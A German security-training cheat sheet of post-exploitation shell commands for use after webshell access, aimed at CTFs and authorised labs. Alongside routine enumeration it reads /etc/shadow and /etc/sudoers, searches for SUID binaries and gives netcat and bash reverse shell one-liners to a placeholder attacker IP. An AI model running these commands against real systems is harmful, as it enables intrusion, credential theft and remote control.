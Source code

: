 # 🧪 cmdExamplesFromShell.md



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Informationsgewinnung](#informationsgewinnung)
- [Dateisystem & Verzeichnisse](#dateisystem--verzeichnisse)
- [Netzwerk-Analyse](#netzwerk-analyse)
- [Systemdienste & Prozesse](#systemdienste--prozesse)
- [Privilege Escalation vorbereiten](#privilege-escalation-vorbereiten)
- [Kommunikation (Reverse Shells)](#kommunikation-reverse-shells)
- [Dateisystem manipulieren](#dateisystem--verzeichnisse)
- [Befehle debuggen (z. B. bei PHP-Webshell)](#befehle-debuggen-beispiel-in-php-webshell)
- [Empfehlung für defensives Logging (Blue Team)](#empfehlung-für-defensives-logging-blue-team)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung

Diese Datei enthält nützliche Shell-Befehle, die häufig **nach erfolgreichem Zugriff über eine Webshell** verwendet werden – z. B. durch eine PHP Remote Code Execution (RCE), Datei-Upload oder Command Injection.  
Sie eignet sich hervorragend für **CTFs**, **Penetration Testing Labs** oder als Nachschlagewerk für den **Post-Exploitation-Prozess**.

> ⚠️ **Hinweis:**  
> Die Befehle dienen ausschließlich **Schulungszwecken** oder autorisierten Tests in isolierten, legalen Umgebungen.  
> Jeder unautorisierte Zugriff auf Drittsysteme ist illegal und strafbar.



## Informationsgewinnung

```bash
whoami                  # Aktueller Benutzer
id                      # UID, GID, Gruppen
pwd                     # Aktuelles Verzeichnis
hostname                # Hostname des Systems
uname -a                # Vollständige Systeminformationen
uname -r                # Kernel-Version
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Dateisystem & Verzeichnisse

```bash
ls -la                  # Aktuellen Verzeichnisinhalt anzeigen
ls -la /root            # Root-Verzeichnis anzeigen (falls zugänglich)
ls -la /home            # Benutzerverzeichnisse anzeigen
ls -la /var/www         # Webserver-Verzeichnis
cat /etc/passwd         # Benutzerliste
cat /etc/shadow         # Passworthashes (nur root)
cat /etc/group          # Gruppeninformationen
cat /etc/sudoers        # Sudo-Rechte überprüfen
```



## Netzwerk-Analyse
```bash
ifconfig                # Netzwerkinterfaces (älter)
ip a                    # Netzwerkinterfaces (neuer)
netstat -an             # Offene Ports
netstat -tulpn          # Dienste mit Ports und PIDs
```



## Systemdienste & Prozesse
```bash
ps aux                  # Laufende Prozesse anzeigen
top                     # Prozesse live
who -a                  # Aktive Benutzer
w                       # Aktive Sessions
```

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Privilege Escalation vorbereiten
```bash
find / -type f -perm -4000 2>/dev/null   # SUID-Dateien finden
sudo -l                                 # Welche Befehle kann ich als root ausführen?
which nc                                # Netcat vorhanden?
which python                            # Python vorhanden?
which perl                              # Perl vorhanden?
```



## Kommunikation (Reverse Shells)
### Netcat Reverse Shell (Linux)
```bash
nc <attacker-ip> 4444 -e /bin/bash
```

### Bash Reverse Shell
```bash
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```
> ⚠️ Hörer vorbereiten mit:
```bash 
nc -lvnp 4444
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Dateisystem manipulieren

```bash
touch test.txt                # Leere Datei anlegen
echo "test" > test.txt        # Text in Datei schreiben
cat test.txt                  # Datei anzeigen
rm test.txt                   # Datei löschen
```



## Befehle debuggen (Beispiel in PHP-Webshell)
Wenn ein Befehl nicht direkt ausgeführt wird (z. B. bei exec()), kann es helfen, einfache Varianten zu testen:

```bash
whoami;id;uname -a
```

**Oder:**

```bash
echo START && whoami && echo END
```

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Empfehlung für defensives Logging (Blue Team)

```bash
last                       # Letzte Logins
dmesg                      # Kernel-Logs
journalctl -xe             # Systemd-Logs (sofern aktiv)
tail -f /var/log/auth.log  # SSH/Authentifizierungsversuche
```



## Siehe auch:

- [php_web_shell_bypass_tricks.md](/03-web-security/angriffe/webshells/php_web_shell_bypass_tricks.md)
- [post_exploitation_tools.md](/04-host-security/post_exploitation_tools.md)
- [php_web_whell_usage.md](/03-web-security/angriffe/webshells/php_web_whell_usage.md)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
